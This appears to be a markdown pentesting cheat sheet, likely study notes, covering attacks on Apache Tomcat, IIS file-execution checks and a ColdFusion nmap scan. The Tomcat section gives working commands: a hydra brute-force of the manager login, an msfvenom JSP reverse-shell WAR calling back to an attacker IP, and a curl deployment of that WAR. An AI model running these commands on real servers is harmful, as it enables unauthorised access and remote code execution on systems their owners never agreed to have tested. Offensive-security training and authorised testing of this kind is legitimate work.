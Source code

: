 - It usually runs on **port 8080**.
- The most interesting path of Tomcat is `/manager/html`, inside that path you can upload and deploy `war` files (execute code). But this path is protected by basic HTTP auth. 
- Bruteforce 
    ```sh
    hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f -s 8080 $IP http-get /manager/html
    ```
- Finally, if you have access to the Tomcat Web Application Manager, you can upload and deploy a `.war` file (execute code).
    ```sh
     msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.177 LPORT=4242 -f war > reverse.war
    ```
- The malicious payload can be either uploaded manually from Tomcat Web Application Manager or using curl:
    ```sh
    curl --upload-file reverse.war -u "tomcat:s3cret" "http://$IP:8080/manager/text/deploy?path=/reverse"
    OK - Deployed application at context path [/reverse]
    # Now navigate to http://$IP/reverse
    ```

References:
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
- https://amirr0r.github.io/posts/htb-tabby/

### IIS - Internet Information Services
The possibility of executing a file on an IIS web server depends on the server's configuration and the file type being accessed. By default, IIS is configured to serve files but not execute them. However, if the server is configured to allow the execution of certain file types, then it is possible for those files to be executed on the server (in the **web.config** file).

You can check whether a server supports file execution or simple download by accessing a file with an executable extension (such as `.asp[x]`, `.php`, `.config` `.cgi`, `.pl`, etc.) and observing the server's behavior.

If the server is configured to execute files, then accessing a file with an executable extension will typically cause the server to execute the file and return the output to your browser. You may see a dynamic web page or some other type of server-generated content.
 
If the response header includes a Content-Type header with a value of:
- **text/html** or similar, then the server is likely executing the file. 
- **application/octet-stream** or similar, then the file is likely being served for download.


### Cold Fusion
```txt
80/tcp open  http    Microsoft IIS httpd 6.0
| http-cookie-flags: 
|   /CFIDE/administrator/enter.cfm: 
|     CFID: 
|       httponly flag not set
|     CFTOKEN: 
|       httponly flag not set
|   /CFIDE/administrator/entman/index.cfm: 
|     CFID: 
|       httponly flag not set
|     CFTOKEN: 
|       httponly flag not set
|   /CFIDE/administrator/archives/index.cfm: 
|     CFID: 
|       httponly flag not set
|     CFTOKEN: 
|_      httponly flag not set
```